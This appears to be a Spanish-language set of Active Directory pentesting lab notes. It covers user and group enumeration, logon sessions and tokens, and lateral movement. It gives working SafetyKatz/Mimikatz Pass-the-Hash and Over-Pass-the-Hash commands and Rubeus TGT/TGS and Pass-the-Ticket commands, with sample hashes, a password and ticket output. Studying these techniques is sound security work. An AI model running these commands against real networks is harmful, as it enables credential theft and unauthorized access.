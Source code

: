 ## Tabla de contenido

- [Enumeración](#Enumeración)
- *[LogonSesssion](#LogonSesssion)*
- [Token](#Token)
- [Movimiento_lateral](#Movimiento_lateral)
  - [runas](#runas)
  - *[Pass-the-Hash](#Pass-the-Hash)*
  - *[Over-Pass-the-Hash](#Over-Pass-the-Hash)*
  - *[Pass-the-ticket](#Pass-the-Ticket)*
  - [Creación de ASK-TGT/TGS](#ASK_TGT_TGS)

# Enumeración
### Listar usuarios locales:
```powershell
Get-LocalUser
Get-WmiObject -Class win32_userprofile | select localpath, SID
```

### Listar usuarios del dominio:
```powershell
Get-ADUser -Filter *
Get-ADUser -Filter * -Server 192.168.1.155
```

### Listar grupos locales
```powershell
Get-LocalGroup
```

### Listar grupos del dominio
```powershell
Get-ADGroup -Filter *
Get-ADGroup -Filter * -Server 192.168.1.155
```
# *LogonSesssion*

Se crea cuando hay una autenticación sea de manera remota o local. Las credenciales siempre se asignan a una *logon session*.

![Ex00](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/1.png)

Hay dos tipos:

**(1) Interactivas**: las credenciales se almacenan en memoria (lsass.exe) para *Single Sign-On*.

**(2) No interactivas**: no se almacenan en memoria, solo se envían en la red. Por defecto **no se guardan en memoria**.
Ejmplo:

![Ex01](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/2.png)

Nota: aunque el usuario pepe puede consumir el recurso con permisos de lectura y escritura, si estas (credenciales) no se envían de manera explícita para consumir un recurso a través de SSO, no se podrá consumir el recurso.

# *Token*

Estructura de datos con información de seguridad de un usuario, gupos, identificar, etc.

![Ex02](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/3.png)

Con ello el sistema operativo, aplica controles de acceso a través de privilegios. Todos los objetos del sistema operativo Windows cuentan con descriptores de seguridad, allí está la lista **DACL** y en ella se especifica quién tiene acceso a los objetos.

![Ex03](https://github.com/0x04e1/Notas-Directorio-Activo/blob/main/Pic/4.png)

# Movimiento_lateral

## *runas*

Con credenciales válidas, es posible crear un proceso actuando como ese usuario.
- Aplica de manera local:
```powershell
runas.exe /user:ffff /savecred cmd.exe
```
- Aplica de manera remota:
```powershell
runas /noprofile /netonly /user:domain\Administrator powershell.exe
```

## *Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se duplica el *token* original.
3. Se referencia la nueva sesión.
4. Se pueaplica al hilo principal o crear nuevo proceso y aplicarlo.

```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /run:powershell.exe" "exit"
```

Al contar con los paquetes de autenticación *msv1_0* y *kerberos*, es posible acceder el consumo de los servicios a través de NTLM y Kerberos (si el servidor lo soporta).
```powershell
msv1_0   - data copy @ 0000013DED28C5E0 : OK !
kerberos - data copy @ 0000013DECC9C6C8
```
## *Over-Pass-the-Hash*
1. Se crea una nueva sesión.
2. Se actualizan *hash* y/o llaves de la sesión.
3. Se copia el *token* original.
4. Similar a **runas /netonly** pero sin credenciales.

La técnica de *Over Pass the Hash* implica la generación de un nuevo ticket de Kerberos y la importación de este ticket en la memoria del sistema, lo cual generalmente requiere privilegios de administrador.
```powershell
C:\AD\Tools\SafetyKatz.exe "sekurlsa::pth /user:juan /domain:cs.org /ntlm:709d4242de780b1f34c19c78ad1630fd /ptt"
```

En este caso, se agrega el parámetro **/ptt** al comando de *Pass the Hash* anterior. Esto indica a Mimikatz que importe el ticket de Kerberos generado en la memoria del sistema para establecer una sesión de autenticación en lugar de solo realizar un *Pass the Hash*. Esto permite realizar la técnica de *Over Pass the Hash* y obtener acceso a otros recursos o sistemas dentro de la red.

## *Pass-the-Ticket*

El parámetro "asktgt" en Rubeus, se utiliza para solicitar un Ticket Granting Ticket (TGT) utilizando las credenciales de un usuario especificado. Y es psoible realizarlo de manera remota:
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:cs.org\juan /password:Colombia.2023. /dc:192.168.1.155
# Para importar el *ticket*:
C:\AD\Tools\Rubeus.exe ptt /ticket:doIFDjCCBQqgAw...
```

## Creación de ASK-TGT/TGS

Se genera tráfico legítimo Kerberos para solicitar: AS-REQ TGS-REQ. ¡No necesita ser administrador!
Para solicitar el TGT concociendo el *Hash* del usuario: 
```powershell
C:\AD\Tools\Rubeus.exe asktgt /user:juan /domain:cs.org /rc4:709d4242de780b1f34c19c78ad1630fd /dc:192.168.1.155 /ptt
```
Al listar el *ticket*, solo se tendrá el recién importado:
```powershell
#0>     Client: juan @ CS.ORG
        Server: krbtgt/cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40e10000 -> forwardable renewable initial pre_authent name_canonicalize
        Start Time: 6/26/2024 12:35:32 (local)
        End Time:   6/26/2024 22:35:32 (local)
        Renew Time: 7/3/2024 12:35:32 (local)
        Session Key Type: RSADSI RC4-HMAC(NT)
        Cache Flags: 0x1 -> PRIMARY
        Kdc Called:
```
Al consumir el servicio CIF, se creará el TGS, Windows hará el trabajo.

```powershell
#2>     Client: juan @ CS.ORG
        Server: cifs/server-01 @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2024 12:49:01 (local)
        End Time:   6/26/2024 22:48:51 (local)
        Renew Time: 7/3/2024 12:48:51 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called: SERVER-01.cs.org
```

Creando el TGS manualmente para consumir el sercio CIF:

```powershell
C:\AD\Tools\Rubeus.exe asktgs /ticket:doIFDj... /service:cifs/server-01.cs.org /ptt
# Al listar el *ticket* creado:
#0>     Client: juan @ CS.ORG
        Server: cifs/server-01.cs.org @ CS.ORG
        KerbTicket Encryption Type: AES-256-CTS-HMAC-SHA1-96
        Ticket Flags 0x40a50000 -> forwardable renewable pre_authent ok_as_delegate name_canonicalize
        Start Time: 6/26/2023 13:18:53 (local)
        End Time:   6/26/2023 20:08:43 (local)
        Renew Time: 7/3/2023 10:08:43 (local)
        Session Key Type: AES-256-CTS-HMAC-SHA1-96
        Cache Flags: 0
        Kdc Called:
```

